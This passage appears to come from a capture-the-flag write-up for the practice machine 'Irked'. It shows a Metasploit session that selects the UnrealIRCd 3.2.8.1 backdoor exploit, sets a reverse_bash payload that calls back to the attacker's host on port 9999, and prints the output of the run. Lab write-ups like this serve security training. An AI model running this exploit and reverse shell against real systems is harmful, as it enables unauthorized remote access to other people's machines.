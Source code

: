```bash
   9   exploit/multi/misc/pbot_exec                      2009-11-02       excellent  Yes    PHP IRC Bot pbot eval() Remote Code Execution
   10  exploit/multi/misc/ra1nx_pubcall_exec             2013-03-24       great      Yes    Ra1NX PHP Bot PubCall Authentication Bypass Remote Code Execution
   11  exploit/linux/http/synology_dsm_smart_exec_auth   2017-11-08       excellent  Yes    Synology DiskStation Manager smart.cgi Remote Command Execution
   12  exploit/multi/http/sysaid_auth_file_upload        2015-06-03       excellent  Yes    SysAid Help Desk Administrator Portal Arbitrary File Upload
   13  exploit/windows/misc/talkative_response           2009-03-17       normal     No     Talkative IRC v0.4.4.16 Response Buffer Overflow
   14  exploit/osx/misc/ufo_ai                           2009-10-28       average    No     UFO: Alien Invasion IRC Client Buffer Overflow
   15  exploit/windows/misc/ufo_ai                       2009-10-28       average    No     UFO: Alien Invasion IRC Client Buffer Overflow
   16  payload/cmd/unix/reverse_bash                                      normal     No     Unix Command Shell, Reverse TCP (/dev/tcp)
   17  payload/cmd/unix/reverse_bash_udp                                  normal     No     Unix Command Shell, Reverse UDP (/dev/udp)
   18  exploit/unix/irc/unreal_ircd_3281_backdoor        2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution
   19  exploit/osx/local/vmware_fusion_lpe               2020-03-17       excellent  Yes    VMware Fusion USB Arbitrator Setuid Privilege Escalation
   20  exploit/linux/ssh/vyos_restricted_shell_privesc   2018-11-05       great      Yes    VyOS restricted-shell Escape and Privilege Escalation
   21  post/windows/gather/credentials/xchat                              normal     No     Xchat credential gatherer
   22  exploit/multi/misc/xdh_x_exec                     2015-12-04       excellent  Yes    Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
   23  exploit/windows/browser/mirc_irc_url              2003-10-13       normal     No     mIRC IRC URL Buffer Overflow
   24  exploit/windows/misc/mirc_privmsg_server          2008-10-02       normal     No     mIRC PRIVMSG Handling Stack Buffer Overflow
   25  exploit/multi/misc/w3tw0rk_exec                   2015-06-04       excellent  Yes    w3tw0rk / Pitbul IRC Bot  Remote Code Execution
   
$ use 18

$ options

$ set rhosts 10.10.10.117
$ set rport 6697

$ show payloads

$ set payload payload/cmd/unix/reverse_bash

$ show options

$ set lhost tun0
$ set lport 9999

$ run

[*] Started reverse TCP double handler on 10.10.14.11:9999 
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo kdRB7Qh684K40B6i;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
```
